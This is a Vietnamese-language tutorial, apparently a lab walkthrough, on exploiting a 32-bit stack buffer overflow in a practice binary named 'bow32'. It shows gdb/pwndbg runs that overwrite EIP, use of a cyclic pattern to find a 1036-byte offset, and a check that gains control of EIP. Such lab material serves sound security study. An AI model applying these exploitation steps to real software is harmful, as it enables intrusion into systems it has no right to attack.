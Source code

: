 # Take Control of EIP
---
## Lỗi phân đoạn - Segmentation Fault
```shell
└─$ gdb -q bow32    <--- into the gdb debug

pwndbg> run $(python2 -c "print('\x55' * 1200)")
Starting program: /.../Linux_x86/Exploxit/Attack/bow32 $(python2 -c "print('\x55' * 1200)")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

```

Nếu cho 1200 ký tự "\x55" làm đầu vào chúng ta có thể thấy thông tin thanh ghi EIP đã bị ghi đè. Theo những gì chúng tôi biết, EIP trỏ đến lệnh tiếp theo sẽ được thực thi.

```shell
pwndbg> info register
eax            0x1                 1
ecx            0xffffd190          -11888
edx            0xffffcaf1          -13583
ebx            0x55555555          1431655765
esp            0xffffca60          0xffffca60
ebp            0x55555555          0x55555555
esi            0x56558eec          1448447724
edi            0xf7ffcba0          -134231136
eip            0x55555555          0x55555555 # <---- thanh ghi con trỏ lệnh EIP đã bị ghi đè
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
....
```
Mô tả trực quan hình ảnh dữ liệu:
```shell
| Address | Stack  |                                DATA
|:-------:|:------:|                                 ⬇
| Low     | ...... | <--- ESP
|         | Data 0 |                                 
|         | Data 1 |                                  
|         | Data 2 |                                  
|         | ....   | 
|         | Data   | 
|         | Data   | <--- EBP        
|         | Data   |                  
|         | Data n | <--- EPI                
| High    | ...... |         
```
Điều này có nghĩa là chúng ta phải ghi quyền truy cập vào EIP. Điều này cho phép chỉ định địa chỉ bộ nhớ mà EIP sẽ nhảy tới. Tuy nhiên, để thao tác với thanh ghi, chúng ta cần một số U chính xác cho đến EIP để 4 byte sau có thể được ghi đè bằng địa chỉ bộ nhớ mong muốn của chúng ta.

## Tìm offset 
* Offset là phần dữ liệu xác định để ghi đè **Buffer**.

* Shellcode là mã chương trình chứa các hướng dẫn cho một thao tác mà chúng ta muốn CPU thực hiện

### Attack
Tạo Payload
```shell
└─$ cyclic 1200 > input
# Tạo payload có độ dài 1200 byte ghi vào file input
```
Attack
```shell
pwndbg> run $(cat input)
Starting program: /.../Linux_x86/Exploxit/Attack/bow32 $(cat input)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()

---

pwndbg> info register
    ...
    eip            0x6b61616a          0x6b61616a
    ...
```
Chúng ta cần tính toán **offset**

```shell
└─$ cyclic -l jaak # 0x6b61616a - little endian
1036
```

```shell
| Address |     Stack    |                                DATA
|:-------:|:------------:|                                 ⬇
| Low     | ............ | <--- ESP
|         |     Data     |              <-*
|         |     Data     |                *
|         |     Data     |                *   # 1036 byte offset           
|         |     Data     | <--- EBP       *  
|         |              |              <-*    
|         |  0x6b61616a  | <--- EPI                
| High    | ............ |         
```

**CHECKEND**
```shell
pwndbg> run $(python2 -c "print('a' * 1036 + '\x66' * 4)")
Starting program: /.../Linux_x86/Exploxit/Attack/bow32 $(python2 -c "print('a' * 1036 + '\x66' * 4)")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```




